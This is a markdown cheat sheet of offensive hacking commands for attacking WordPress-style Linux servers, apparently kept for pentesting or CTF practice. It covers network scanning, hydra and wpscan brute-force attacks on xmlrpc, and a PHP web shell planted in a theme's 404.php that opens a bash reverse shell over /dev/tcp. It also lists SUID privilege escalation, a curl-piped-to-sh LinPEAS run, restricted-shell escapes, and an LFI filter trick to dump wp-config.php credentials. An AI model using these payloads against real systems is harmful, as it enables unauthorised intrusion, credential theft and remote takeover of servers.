 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |
| smbclient | smbclient -L \\\\[IP]\\[Directory] |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Start HTTP Server: python3 -m http.server
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```
Binaries
```
/usr/bin/dash -p
Path: /usr/bin/find. Exp: find . -exec /bin/sh -p \; -quit
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Escape  restricted environments
'''
:!/bin/sh
:shell
:set shell=/bin/sh
'''

## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```

## Dynamic tunnel
Over Socks 5: ssh -D PORT [USER]@[IP]
![image](https://github.com/user-attachments/assets/bb6c4651-ac44-4144-9765-845565b9a826)

## Force the server to read and encode the file before processed
Example (with LFI, wp file) 
http://[IP]/lx.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

## Check commands in a restricted shell
"TAB TAB"


